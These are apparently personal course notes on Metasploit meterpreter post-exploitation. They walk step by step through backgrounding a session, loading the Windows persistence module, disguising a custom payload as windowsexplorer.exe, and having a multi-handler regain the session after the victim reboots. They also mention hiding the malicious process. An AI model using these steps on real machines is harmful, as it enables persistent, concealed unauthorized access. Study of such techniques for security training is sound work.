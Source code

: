 Take screenshot
```sh
screenshot
```

---

**Create a More Sustainable Session**

Background the meterpreter session
```sh
background
```

Restore session
```sh
sessions <id>
```

After we background the session we can use a persistence module
```sh
use exploit/windows/local/persitence
```
- May need to set payload before this step 

Set options
```sh
options
```

```sh
set EXE_NAME windowsexplorer.exe
```

Set which session to use
```sh
set SESSION 1
```

Show advanced settings 
```sh
show advanced
```

Set custom exe
```sh
set EXE::Custom /<path-to-file>
```
- Here i would use: `/var/www/html/payloads/payload.exe`

Run the exploit
```sh
exploit
```

If we go back into the muli-handler and restart the computer, the listener should get a session back if the victim's PC is restarted.

It could take a few minutes for it to work. There is a way to hide our malicious process but i'll have to add in this later when i get on Kali and experiment with the course content.

---